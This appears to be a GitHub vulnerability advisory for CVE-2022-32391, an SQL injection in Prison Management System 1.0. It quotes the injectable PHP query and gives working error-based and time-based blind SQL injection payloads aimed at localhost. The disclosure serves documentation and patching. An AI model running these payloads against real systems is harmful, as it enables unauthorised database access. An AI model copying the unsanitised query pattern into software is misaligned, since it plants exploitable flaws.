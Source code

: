 # CVE-2022-32391
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/actions/view_action.php:4`
```php
$qry = $conn->query("SELECT * from `action_list` where id = '{$_GET['id']}' and delete_flag = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'pms_db',0,1)%23

# Time Based
http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/like/**/'pms_db',0,sleep(1))%23
```
- True : 
`http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'pms_db',0,1)%23`
![True](./img/cve-2022-32391_true.png)
- False : 
`http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'wrong',0,1)%23`
![False](./img/cve-2022-32391_false.png)